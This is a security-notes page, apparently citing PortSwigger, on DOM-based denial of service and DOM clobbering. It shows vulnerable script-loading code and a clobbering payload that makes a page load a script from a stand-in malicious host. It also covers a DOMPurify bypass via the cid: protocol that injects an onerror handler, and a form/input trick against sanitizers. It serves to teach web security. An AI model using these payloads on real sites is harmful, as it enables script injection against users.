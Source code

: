 ### Denial of Service

From: [https://portswigger.net/web-security/dom-based/denial-of-service](https://portswigger.net/web-security/dom-based/denial-of-service)

#### How

DOM-based denial-of-service vulnerabilities arise when a script passes **attacker-controllable data in an unsafe way to a problematic platform API**, such as an API whose invocation can cause the user's computer to consume **excessive amounts of CPU or disk space**. This may result in side effects if the browser restricts the functionality of the website, for example, by rejecting attempts to store data in `localStorage` or killing busy scripts.

#### Sinks

```text
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

Injecting that data `window.someObject.url` is going to be `href=//malicious-website.com/malicious.js`

**Trick**: `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.

Another common technique consists on using **`form`** element. Some client-side libraries will go through the attributes of the created form element to sanitised it. But, if you **create an `input`**inside the form with `id=attributes` , you will **clobber the attributes property** and the sanitizer **won't** be able to go through the **real attributes**.

